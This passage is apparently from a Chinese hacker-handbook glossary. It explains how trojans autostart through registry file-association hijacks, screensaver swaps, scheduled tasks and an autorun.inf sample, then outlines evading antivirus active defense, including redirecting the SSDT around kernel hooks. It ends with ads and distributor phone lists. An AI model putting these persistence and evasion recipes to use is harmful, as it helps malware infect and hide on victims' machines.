HKEY_LOCAL_MACHINE\Software\CLASSES\exe\file\shell\open\command @="\"%1\" %*"
HKEY_LOCAL_MACHINE\Software\CLASSES\hta\file\shell\open\command @="\"%1\" %*"
```

其实从注册表的路径上就隐约可以看出，这些都是一些经常被执行的可执行文件的键值。往往有些木马是可以更改这些键值，从而达到加载的目的。

如果我把“"%1" %*”改为“file.exe "%1" %*”，则文件 file.exe 就会在每次执行某一个类型的文件（要看改的是哪一个文件类型）时被执行。

上面的各个注册表的位置决定着它们与谁关联，如 [HKEY_CLASSES_ROOT\txt\file\shell\open\command] 中，从中间的 \txt\file\shell\open\command 这些单词就可以看出，它是与 txt 文件关联，当修改这个键值后，每次打开 TXT 文件就会执行指定的程序，如图 Z-11。


图 Z-11

##### （2）屏幕保护启动

Windows 的屏幕保护程序是一个 .scr 文件，这是一个 PE 文件。如果把屏幕保护程序 .scr 更名为 .exe 的文件，则该程序仍然可以正常启动。类似地，.exe 文件更名为 .scr 文件也是一样可以被运行，所以只要替换了屏保文件并修改好必要的注册表键值，就能够达到启动程序的目的。

##### （3）计划任务启动方式

Windows 的计划任务是其内置实现某些操作而使用的一个功能，利用这个功能也是能够实现自启动目的的。计划任务可以在 SHELL 下用 AT 命令实现。

##### （4）AutoRun.inf 启动方式

AutoRun.inf 文件因各种 U 盘病毒让大家所熟知，这个文件以前最常出现在光盘中，用于光盘自启动。每次把光盘放入光驱中的时候，系统会通过这个文件来决定是否自动启动光盘。但是有没有想过，这个文件也可以用来自启动一些文件！

Autorun.inf 的内容通常如下：

```
[AUTORUN]
OPEN=file.exe
ICON=icon.ico
```

OPEN 中是插入光盘或者双击光盘盘符就会运行的可执行文件的名称。ICON 中是该光驱驱动器的图标文件，该文件可以是其他文件。比如我们的 autorun.inf 文件内容如下：

```
[AUTORUN]
OPEN=file.exe
ICON=icon.exe,2
```

其中 icon.exe 是一个有图标文件的可执行文件；“,2”则是该文件中的第 3 个图标。（“0”是第一个图标，无数字则默认为第一个图标）。

最关键的是该 Autorun.inf 文件是可以被用在硬盘驱动器上的，也就是说，如果把光盘上的所有文件及目录原封不动地复制到某一硬盘的根目录下，则双击盘符会自动运行文件！

如果是木马的话，打一个比方：一个木马如果执行后被命名为 aaa.exe 放置在 C:\Windows 目录下，那么该木马可以生成一个 autorun.inf 文件于 C:\ 下，内容如下：

```
[AUTORUN]
OPEN=Windows\aaa.exe
ICON=aaa.exe
```

这样的话，盘符图标为 aaa.exe 的第一个图标文件，而在每次双击 C 盘的时候都会执行 aaa.exe 文件了。

## 组播：黑客技术基础

组播又叫多播，一般来说，IP 数据报在网络传输中，分为单播、组播和广播三种方式。单播中，通信双方只有一个，也叫一对一方式，它是最普通的通信方式，比如信件、电话等许多传统通信，均采用一对一的方式。

组播方式是在特定小组或集团内的通信，有些类似公告板的方式，把一种通信信息，通过公告板或者复制多份进行传递。多播方式常用于在一个特定的组织内进行信息交换，如果一台发送者同时给多个接收者传输相同的数据，也只需复制一份相同数据包。它提高了数据传送效率，减少了骨干网络出现拥塞的可能性。

广播方式，就像无线电或电视一样，也像在某一地区进行的紧急广播，一经播送出去，就可以对联网的所有计算机进行通信。当然，这里的所有计算机并不是全世界所有的计算机，否则世界上的网络早就被挤爆了，播送只限于在物理上被分开的特定网络中进行通信。

## 组策略：操作系统及其相关

于是就有了组策略。打开方式为：**开始－运行**，输入 `gpedit.msc`，然后回车，界面如图 Z-12。


图 Z-12

随着 Windows 功能的越来越丰富，注册表里的配置项目也越来越多，很多配置都是可以自定义设置的，但这些配置分布在注册表的各个角落，如果是手工配置，可想是多么困难和繁杂。而组策略则将系统重要的配置功能汇集成各种配置模块，供管理人员直接使用，从而达到方便管理计算机的目的。

组策略可以对各种对象中的设置进行管理和配置，远比手工修改注册表方便、灵活，功能也更加强大。

### HACK TIPS:

在默认设置下，Windows 2000 Server 在交互式登录窗口上会显示上次登录的账户名。为了防止用户猜测或破解这一账户，我们可以让 Windows 2000 Server 的交互式登录窗口不显示上次登录的账户名。

具体做法是：打开组策略编辑器，依次展开“计算机配置”－“Windows 设置”－“安全设置”－“本地策略”－“安全选项”，在右侧双击“登录屏幕上不要显示上次登录的用户名”策略，在弹出的对话框上选择“已启用”即可，如图 Z-13。


图 Z-13

## 主动防御：安全技术

随着病毒与木马数量的爆发增长，原始的特征码杀毒方式已经不能够满足用户的需求了，因为一般的过程是：病毒出现—分析定位特征码—更新病毒库—查杀。

这样的过程使得杀毒软件永远走在病毒与木马的后面，为了改变这个局面，杀毒软件厂商们已经有了一种新的杀毒方式：主动防御。

所谓“主动防御”，就是全程监视进程的行为，一旦发现“违规”行为，就通知用户，或者直接终止进程。

但难点在于人类的计算机还无法智能分辨此进程到底是正常还是恶意的，因为有些正常的软件也可能做一些违规动作（比如杀毒软件本身）。因此“主动防御”并不能 100% 发现病毒，它的成功率大概在 60%-80% 之间，如果再加上传统的“特征码技术”，几乎可以发现 100% 的恶意程序了。现在的杀毒软件基本上都是“主动防御”+“特征码技术”，这也是杀毒软件的必然发展趋势。

一个进程有怎么样的行为，通过看它调用了什么样的 API 就大概清楚了。比如它要读写文件就必然要调用 CreateFile()、OpenFile()、NtOpenFile()、ZwOpenFile() 等函数，要访问网络就必然要使用 Socket 函数。因此只要挂接系统 API，就可以知道一个进程将有什么动作，如果有危害系统的动作该怎么样处理等等。

例如瑞星杀毒，大家可以在它的安装目录里找到几个驱动文件，其实这些驱动就是挂接了 ntoskrnl.exe、ndis.sys 等系统关键模块里的 API，从而对进程的普通行为、网络行为、注册表行为进行监视的。

“主动防御”型杀毒软件的一般流程如下：

- 1. 通过挂接系统建立进程的 API，杀毒软件就在一个进程建立前对进程的代码进行扫描，如果发现 SGDT、SIDT、自定位指令（一般正常软件不会有这些指令），就提示；如果用户放行，就让进程继续运行。
- 2. 接下来监视进程调用 API 的情况，如果发现以读写方式打开一个 EXE 文件，也许是进程的线程感染 PE 文件，就发出警告；如果收发数据违反了规则，就发出提示。

但是这样的提示如果太多，也会大大影响用户使用电脑的情绪，这也是杀毒软件亟待解决的问题。

### HACK TIPS:

当然，主动防御看似强悍，但绕过并不是不可能，杀毒软件其实也是很笨的，一般用一套规则来判断程序是否为恶意软件。

典型的两个判断指标为：

- 1. 正常用户使用的程序，绝对不会 hook 自身，实现隐藏进程，而隐藏进程的必然是木马病毒。
- 2. 正常用户使用的程序，绝对不会插入其他进程，尤其是 ie 浏览器和 svchost.exe 这两个进程，一旦插入远程进行访问网络的程序必然是木马病毒。

而一般的主流木马运行过程如下：

- 1. 木马运行。
- 2. 木马会以隐藏窗口形式进行运行。
- 3. 向 C 盘下的 Windows 或 System、system32 等等系统关键的几个文件夹释放木马文件。
- 4. 注册服务、修改服务，或者修改注册表添加启动项，好让程序重新启动后能够再次运行。
- 5. 插入 ie 浏览器进程和 hook 自身隐藏进程，外连网络。

一旦杀毒软件侦测到这几个流程，就很有可能将当前文件当作木马并消灭，所以想绕过主动防御就必须避免这几个典型的动作。实现思路如下：

- 1. 不隐藏进程
- 2. 不插入进程外连网络
- 3. 不修改注册表
- 4. 不创建服务来实现启动

上面的思路是从高层来实现突破主动防御，现在的许多木马配置时也都提供这样的选项。这样的好处是容易实现，但也容易被查杀，下面简单地介绍一下从底层突破主动防御的常规方法。

正如上面所说，杀毒软件一般是在 ring0 级别 HOOK 了系统的 API，当调用这些 API 时会首先转到杀毒软件设置的函数上。而对付 ring0 inline hook 的基本思路可以是这样：自己写一个替换的内核函数，以 NtOpenProcess 为例，就是 MyNtOpenProcess。然后修改 SSDT 表，让系统服务进入自己的函数 MyNtOpenProcess。而 MyNtOpenProcess 要做的事就是实现 NtOpenProcess 前 10 字节指令，然后再 JMP 到原来的 NtOpenProcess 的 10 字节后。

这样，NtOpenProcess 函数头写的 JMP 都失效了，调用此 API 时也就不会跳到杀毒软件设置的函数上了，在 ring3 直接调用 OpenProcess 也再毫无影响。

## 正则表达式｜黑客技术基础

正则表达式是用来描述或者匹配一系列符合某个句法规则的字符串的单个字符串。在很多文本编辑器或其他工具里，正则表达式通常被用来检索或替换那些符合某个模式的文本内容。许多程序设计语言都支持利用正则表达式进行字符串操作，例如在 Perl 中就内建了一个功能强大的正则表达式引擎。

正则表达式这个概念最初是由 Unix 中的工具软件（例如 sed 和 grep）普及开的，“正则表达式”通常缩写成“regex”。

众所周知，在程序开发中，难免会遇到需要匹配、查找、替换、判断字符串的情况发生，而这些情况有时又比较复杂，如果用纯编码方式解决，往往会浪费程序员的时间及精力。因此，学习及使用正则表达式，便成了解决这一矛盾的主要手段。

> 一个正则表达式就是由普通的字符（例如字符 a 到 z）以及特殊字符（元字符）组成的文字模式。它用以描述在查找文本主体时待匹配的一个或多个字符串。正则表达式作为一个模板，将某个字符模式与所搜索的字符串进行匹配。

### HACK TIPS:

正则表达式用元字符来让使用者构造自己的规则，常见的元字符如下表：

| 代码 | 说明 |
|---|---|
| `\w` | 匹配字母、数字、下划线及汉字 |
| `\W` | 匹配除字母、数字、下划线及汉字以外的任意字符 |
| `\s` | 匹配任意的空白符 |
| `\d` | 匹配数字 |
| `\b` | 匹配单词的开始或结束 |
| `^` | 匹配字符串的开始 |
| `$` | 匹配字符串的结束 |

元字符 ^（和数字 6 在同一个键位上的符号）和 $ 都匹配一个位置，这和 \b 有点类似。^ 匹配你要用来查找的字符串的开头，$ 匹配结尾。

这两个代码在验证输入的内容时非常有用，比如一个网站要求你填写的 QQ 号必须为 5 位到 12 位数字时，可以使用：`^\d{5,12}$`。

这里的 {5,12} 和前面介绍过的 {2} 是类似的，只不过 {2} 匹配只能不多不少重复 2 次，{5,12} 则是重复的次数不能少于 5 次，不能多于 12 次，否则都不匹配。

因为使用了 ^ 和 $，所以输入的整个字符串都要用来和 \d{5,12} 进行匹配，也就是说整个输入必须是 5 到 12 个数字，因此如果输入的 QQ 号能匹配这个正则表达式的话，那就符合要求了。

和忽略大小写的选项类似，有些正则表达式处理工具还有一个处理多行的选项。如果选中了这个选项，^ 和 $ 的意义就变成了匹配行的开始处和结束处。

价格：39 元

## 黑客木马图文词典（英文词汇版）

## 历时两年精心创作

- 编辑推荐最佳辞典工具（限量典藏版）
- 独家贡献国内第一本信息安全术语图文查阅词典
- 首创双目录快速索引（字母顺序 + 技术分类）

黑客技术中的百科全书，涵盖全部细致技术范围，有了它你将以塑造出你自己想象的速度成长……

在线阅读：book.nohack.cn  
淘宝专卖：taobao.nohack.cn

## 非安全·黑客手册

全国代理商电话

| 城市 | 电话 |
|---|---|
| 北京 | 6593475 |
| 北京 | 65073229 |
| 北京 | 65850057 |
| 南宁 | 2615676 |
| 柳州 | 3111816 |
| 南通 | 85501751 |
| 本溪 | 3882485 |
| 宁波 | 87660206 |
| 青岛 | 83848881 |
| 沈阳 | 23842760 |
| 太原 | 7041968 |
| 唐山 | 2810045 |
| 天津 | 27697711 |
| 邢台 | 3090234 |
| 宣昌 | 6443827 |
| 威海 | 5202057 |
| 淄博 | 2150683 |
| 上海 | 63780159 |
| 郑州 | 67647276 |
| 烟台 | 6260748 |
| 徐州 | 83777678 |
| 长沙 | 6562796 |
| 任丘 | 2254900 |
| 福州 | 13960788097 |
| 秦皇岛 | 3691263 |
| 张家口 | 2068200 |
| 哈尔滨 | 88342321 |
| 石家庄 | 83029157 |
| 乌鲁木齐 | 5589830 |
| 齐齐哈尔 | 2683430 |
| 常德、衡阳 | 7389148 |
| 昆明 | 4168505 / 4125008 |
| 南昌 | 8522265 / 8591995 |
| 芜湖 | 3119006 / 3121316 |
| 蚌埠 | 3028542 / 3028028 |
| 阜阳 | 2271183 / 2233944 |
| 贵阳 | 5984995 / 6819938 |
| 合肥 | 2611465 / 7139358 |
| 吉林 | 6959591 / 6959592 |
| 银川 | 6024121 / 6024322 |
| 铁岭 | 4840742 / 2652412 |
| 邯郸 | 3090822 / 7672216 |
| 包头 | 4138751 / 2516902 |
| 苏州 | 65188163 / 65165868 |
| 深圳 | 82264081 / 25925914 |
| 大连 | 84600173 / 83898946 |
| 重庆 | 67051607 / 67051833 |
| 佳木斯 | 8220728 / 8061162 |
| 连云港 | 82887021 / 85503168 |
| 营口 | 3551160 |
| 海口 | 66217820 |
| 鞍山 | 2218341 |
| 周口 | 6083289 |
| 保定 | 2038408 |
| 朝阳 | 2622618 |
| 沧州 | 3015380 |
| 大庆 | 6320827 |
| 长春 | 82700526 |
| 淮安 | 83942865 |
| 常州 | 86105882 |
| 成都 | 89935872 |
| 大同 | 2021603 |
| 无锡 | 82722773 |
| 宝鸡 | 2859586 |
| 厦门 | 5095042 |
| 武汉 | 85493562 |
| 武汉 | 87372806 |
| 杭州 | 88256366 |
| 泰安 | 8224897 |
| 衡水 | 7902322 |
| 泰安 | 8337513 |
| 济南 | 82903395 |
| 东营 | 8258792 |
| 淮南 | 6314707 |
| 莱西 | 86647301 |
| 胶州 | 87219723 |
| 南京 | 83328998 |
| 兰州 | 8514919 |
| 温州 | 86056785 |
| 绵阳 | 2333291 |
| 阜新 | 3316222 |
| 西安 | 82100804 |
| 广州 | 34296413 |


| 项目 | 内容 |
|---|---|
| 出品人 | 非安全 |
| 作者 | 高康迪 |
| 感谢 | 雅酷分类整理；王军【星陨石碎】二次整理筛选；黑裤子参与部分词汇收集；Python 提出双目录建议 |
| 编辑 | Python、LCX、空气、浪迹天涯、眼镜猴 |
| 特约编辑 | 风飘雨、小迷、XApache、张宇、冰的原点 |
| 平面规划 | 陈黎黎 |
| 网站 | www.nohack.cn |
| 网站编辑 | 空气、Cass |
| 版权声明 | 图文版权所有，未经同意，不得转载。 |
| 投稿信箱 | nohack@21cn.com |
| 邮购查询 | hope_wym@sina.com |
| 光盘信箱 | CD@nohack.cn |
| 定价 | 26元 |
| 在线商城 | book.nohack.cn |
| 淘宝 | taobao.nohack.cn |
| 拍拍 | paipai.nohack.cn |